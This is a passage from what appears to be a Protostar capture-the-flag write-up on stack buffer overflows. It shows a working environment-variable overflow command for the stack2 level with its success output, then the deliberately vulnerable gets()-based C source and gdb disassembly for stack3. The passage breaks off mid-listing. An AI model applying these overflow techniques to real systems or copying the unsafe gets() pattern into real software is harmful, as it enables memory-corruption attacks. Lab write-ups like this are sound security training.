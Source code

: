 We pack the env variable to overflow the stack, 16 times to reach the target + 1 for the target address.
Using python to print out the target match condition `0x0d0a0d0a` or `\r\n\r\n`
```bash
user@protostar:/tmp$ export GREENIE=$(python -c "print '\x0a\x0d\x0a\x0d'*17")
user@protostar:/tmp$ /opt/protostar/bin/stack2
you have correctly modified the variable
```


## Stack 3

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Disassembly for win and main functions:
```bash
(gdb) disass win
Dump of assembler code for function win:
0x08048424 <win+0>:     push   %ebp
0x08048425 <win+1>:     mov    %esp,%ebp
0x08048427 <win+3>:     sub    $0x18,%esp
0x0804842a <win+6>:     movl   $0x8048540,(%esp)
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret
End of assembler dump.
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   %ebp
0x08048439 <main+1>:    mov    %esp,%ebp
0x0804843b <main+3>:    and    $0xfffffff0,%esp
0x0804843e <main+6>:    sub    $0x60,%esp
0x08048441 <main+9>:    movl   $0x0,0x5c(%esp)
0x08048449 <main+17>:   lea    0x1c(%esp),%eax
0x0804844d <main+21>:   mov    %eax,(%esp)
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmpl   $0x0,0x5c(%esp)
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    $0x8048560,%eax
0x08048461 <main+41>:   mov    0x5c(%esp),%edx
```